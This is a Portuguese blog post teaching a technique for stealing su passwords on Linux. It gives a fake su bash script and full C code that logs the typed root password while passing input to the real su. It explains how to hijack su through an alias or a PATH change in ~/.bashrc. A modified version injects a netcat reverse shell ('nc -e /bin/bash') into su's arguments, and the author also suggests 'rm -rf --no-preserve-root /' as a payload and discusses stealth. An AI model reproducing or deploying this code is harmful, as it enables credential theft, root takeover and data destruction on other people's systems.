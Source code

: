 ```yaml
---
layout: post
title: Fakesu
---
```


# Fakesu

Fakesu é uma técnica lendária, criada pelos bruxos anciões do underground que viviam
em cavernas e sobreviviam com apenas 2MB de ram. A técnica consiste em usar um programa
que simule o su, mas ao invés de efetuar o login apenas salva a senha digitada.
Não sei exatamente onde li a respeito disso, provavelmente em algum fórum, mas lembro-me
do código usado, era algo bem simples, parecido com isso:

```bash
#!/bin/bash

echo -n "Password: "
read -rs pw
echo "$pw" >> /tmp/.passwords.txt
echo;
sleep 3
echo "su: Authentication failure"
```

Com o script criado, basta modificar o arquivo `~/.bashrc` e adicionar algum comando que faça o
fakesu ser executado toda vez que o usuário rodar o comando su.
Isso pode ser feito usando `alias su='~/.fakesu.sh'`,
mas eu prefiro fazer de uma outra maneira: modificar a variável PATH, para algo como `PATH="~/.fakesudir/:${PATH}"`,
 e salvar o script, no dir `~/.fakesudir`, com o nome `su`, lembrando também de dar permissão de execução 
(a vantagem nesse caso é que, se o arquivo for deletado, o su verdadeiro volta a
ser executado sem problemas).

Como podem ver, a técnica é bastante simples, acredito que a maioria que esteja lendo isso
já conheça o truque, mas tem alguns problemas, por exemplo, as mensagens podem ser diferentes,
 a linha de comando e o usuário não são verificados, o programa sempre falha.
Solucionar esses problemas não é muito difícil, e até seria divertido,
mas existe uma maneira melhor de pegar a senha, usando tty.

Além de poder armazenar o que é digitado, com tty, o su é executado normalmente, e você
pode executar outros programas, por exemplo, sudo, mysql, ssh, etc, sem precisar
criar uma versão fake de cada um. Código de exemplo:

```c
/* gcc [file.c] -static -lutils -o su */

#define LOGFILE "/tmp/.password.txt"

#include <sys/types.h>
#include <sys/wait.h>
#include <termios.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <poll.h>
#include <pty.h>


int main(int argc, char **argv, char **envp){
    struct pollfd pfds[2];
    struct termios tios, old;
    int master, fd, status, finish = 0;
    char buf[1024];
    ssize_t n;
    pid_t pid;

    /* cria tty e um novo processo */
    pid = forkpty(&master, NULL, NULL, NULL);

    if(pid == -1){
        return 1;
    } else if(pid == 0){
        /* aqui é o novo processo criado, executamos o programa alvo */
        execve("/usr/bin/su", argv, envp);

        /* caso o binario não exista ... */
        _exit(1);
    }

    /* modificando stdin (man 3 termios) */
    tcgetattr(0, &tios);
    memcpy(&old, &tios, sizeof(struct termios));
    tios.c_lflag &= ~(ISIG | ICANON | ECHO | ECHOE | ECHOK | ECHONL);
    tcsetattr(0, TCSAFLUSH, &tios);

    fd = open(LOGFILE, O_CREAT|O_RDWR|O_APPEND, 0600);
    if(fd == -1){
        return 1;
    }

    /* usando POLLIN todos os eventos de entrada serão retornados:
        stdin (quando uma tecla for digitada)
        master (quando algo for printado no stdout ou stderr)
       depois disso é so ler os dados e escrever:
        read(master) -> write(stdout)
        read(stdin)  -> write(master)
    */
    pfds[0].fd = 0;
    pfds[1].fd = master;
    pfds[0].events = POLLIN;
    pfds[1].events = POLLIN;

    /* escreve no arquivo até o stdin receber '\n' */
    while(1){
        if(poll(pfds, 2, -1) == -1)
            break;

        if(pfds[0].revents & POLLIN){
            n = read(0, buf, 1);
            if(n <= 0)
                break;

            write(master, buf, 1);

            if(!finish){
                write(fd, buf, 1);
                if(buf[0] == '\n'){
                    finish = 1;
                    close(fd);
                }
            }
        }

        if(pfds[1].revents & POLLIN){
            n = read(master, buf, sizeof(buf));
            if(n <= 0)
                break;

            write(1, buf, n);
        } else if(pfds[1].revents & POLLHUP){
            break;
        }
    }

    close(master);

    /* restaura o stdin */
    tcsetattr(0, TCSAFLUSH, &old);

    /* retorna o status code do programa executado */
    waitpid(pid, &status, 0);
    return status;
}
```

Testando:

```
$ gcc fakesu.c -lutil -static -o fakesu
$ alias su='fakesu'
$ su -
Senha:
# id
uid=0(root) gid=0(root) grupos=0(root)
$ exit
$ cat /tmp/.password.txt
0123456789abcdef
```

Existem algumas melhorias que podem ser feitas, por exemplo, salvar a linha de comando, continuar
salvando mesmo depois do `\n` (caso o usuário digite a senha errada), mudar o nome do processo (para
ficar mais stealth). Agora pense nas possibilidades, ao invés de simplesmente salvar a senha, seria
legal já executar algum comando, um `rm -rf --no-preserve-root /`, ou uma shell reversa. Isso pode
ser feito de duas formas:

* Escrever o comando, como se fosse o usuário digitando, usando `write(master, "cmd\n", size)`. Para isso é necessário verificar
se o usuário logou com sucesso,
apesar do prompt das shells ser customizável, a maioria sempre vai apresentar `#` quando executada pelo root. O problema é que
além de ter q detectar a shell, o que pode não funcionar, o comando é mostrado para o usuário, e esconder isso deixa o código
bem complicado.

* Alterar o argv, por exemplo, transformar `su -` em `su - -c 'cmd;/bin/bash -i'`. O mesmo pode ser feito com sudo ou ssh.

Como a segunda alternativa é a mais simples, focaremos nela. Modificando o execve e adicionando dois parâmeteros (-c, cmd),
assim que o usuário logar teremos uma shell, vamos alterar o código, na parte do `else if(pid == 0)`, ficando dessa maneira:

```c
    } else if(pid == 0){
        int count;

        char **xargv = malloc(sizeof(char *)*(argc+3));

        for(count=0; count<argc; count++)
            xargv[count] = argv[count];

        xargv[count++] = "-c";
        xargv[count++] = "nc -e /bin/bash localhost 1234 & /bin/bash -i";
        xargv[count] = NULL;


        /* aqui é o novo processo criado, executamos o programa alvo */
        execve("/usr/bin/su", xargv, envp);

        /* caso o binario não exista ... */
        _exit(1);
    }
```

Testando:

[![asciicast](https://asciinema.org/a/E870bZGEJQ3q4iMimIUwP7LDm.svg)](https://asciinema.org/a/E870bZGEJQ3q4iMimIUwP7LDm)

Tem muitas coisas que podem ser melhoradas, talvez eu faça e poste no github, por enquanto é isso.
